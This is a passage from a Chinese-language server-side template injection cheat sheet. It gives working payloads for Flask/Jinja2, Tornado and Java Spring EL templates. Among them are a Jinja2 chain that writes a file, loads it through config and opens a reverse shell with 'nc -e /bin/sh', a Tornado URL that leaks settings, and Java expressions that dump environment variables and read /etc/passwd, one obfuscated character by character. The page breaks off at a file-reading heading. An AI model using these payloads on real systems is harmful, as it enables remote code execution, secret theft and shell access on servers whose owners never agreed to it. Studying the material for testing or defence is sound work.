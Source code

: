

**2）.Flask/Jinja2**

config 是Flask模版中的一个全局对象，它代表“当前配置对象(flask.config)”，它是一个类字典的对象，它包含了所有应用程序的配置值。在大多数情况下，它包含了比如数据库链接字符串，连接到第三方的凭证，SECRET_KEY等敏感值。虽然config是一个类字典对象，但是通过查阅文档可以发现 config 有很多神奇的方法：from_envvar, from_object, from_pyfile, 以及root_path。

```handlebars
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system

{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```

**3）.Tornado**

```cobol
http://117.78.26.79:31093/error?msg={{handler.settings}}
```

 3**.利用模语言本身的特性进行攻击**

 1）python

[Python 沙盒逃逸备忘 | K0rz3n's Blog](https://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/#题目一、)

**2）.JAVA**

**payload：**

```scss
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```

当然要是文件操作就要用另外的类了,思路是不变的

```scss
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```





### 读写文件

#### 方法一
